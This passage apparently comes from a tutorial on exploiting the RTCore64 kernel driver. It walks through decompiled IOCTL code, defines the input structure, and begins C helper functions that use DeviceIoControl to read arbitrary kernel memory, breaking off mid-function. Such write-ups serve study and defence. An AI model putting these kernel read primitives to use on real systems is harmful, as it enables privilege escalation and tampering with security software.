 ```c
switch ( systemBuffer[6] )
            {
              case 1:
                systemBuffer[7] = *(unsigned __int8 *)((unsigned int)systemBuffer[5] + inputBuffer);
                break;
              case 2:
                systemBuffer[7] = *(unsigned __int16 *)((unsigned int)systemBuffer[5] + inputBuffer);
                break;
              case 4:
                systemBuffer[7] = *(_DWORD *)((unsigned int)systemBuffer[5] + inputBuffer);
                break;
            }
```

To send the data to the IOCTL properly, we need to construct a structure containing relevant members that will be interpreted by the IOCTL subroutine. Recalling the conditions in the subroutine, we know that the buffer we send needs to be 48 bytes, so we include several padding buffers that will be filled automatically to pass this condition. The other members: Address, ReadSize, are self-explanatory and will allow us to perform the arbitrary read operation. We also need to keep in mind that for the `ReadSize` needs to be 1, 2 or 4 bytes. 

```
struct RTCORE64_BUFFER
{
  BYTE Pad0[8];
  DWORD64 Address;
  BYTE Pad1[8];
  DWORD ReadSize;
  DWORD Value;
  BYTE Pad3[16];
};
```

With this, we can create “helper functions” that will let us read memory of different supported sizes so that we can easily read kernel data structures of different sizes. In this case, we’ll make functions to read WORDS (2 bytes), DWORDS (4 bytes), and QWORDS (8 bytes):

```c
DWORD ReadMemoryWORD(HANDLE hDevice, DWORD64 Address) {
	RTCORE64_BUFFER MemRead = { 0 };
	MemRead.Address = Address;
	MemRead.ReadSize = 2;
	
	DWORD BytesReturned;

	DeviceIoControl(
		hDevice,
		RTCORE_READ_IOCTL,
		&MemRead,
		sizeof(MemRead),
		&MemRead,
		sizeof(MemRead),
		&BytesReturned,
		NULL
	);

	return MemRead.Value & 0xffff;
}

DWORD ReadMemoryDWORD(HANDLE hDevice, DWORD64 Address) {
	RTCORE64_BUFFER MemRead = { 0 };
	MemRead.Address = Address;
	MemRead.ReadSize = 4;
```